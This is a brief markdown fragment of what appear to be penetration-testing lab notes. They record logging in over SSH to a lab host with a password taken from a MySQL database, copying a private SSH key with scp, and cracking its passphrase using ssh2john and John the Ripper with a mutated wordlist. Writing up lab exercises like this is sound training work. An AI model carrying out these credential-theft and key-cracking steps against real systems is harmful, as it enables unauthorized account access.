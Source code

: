 * ssh dennis@10.129.202.221
  * PW obtained from MySQL DB

<figure><img src=".gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

* scp obtained id\_rsa to your machine

<figure><img src=".gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

* /usr/share/john/ssh2john.py id\_rsa > id\_rsa.hash
* john --wordlist=mut\_password.list PWmedium/id\_rsa.hash
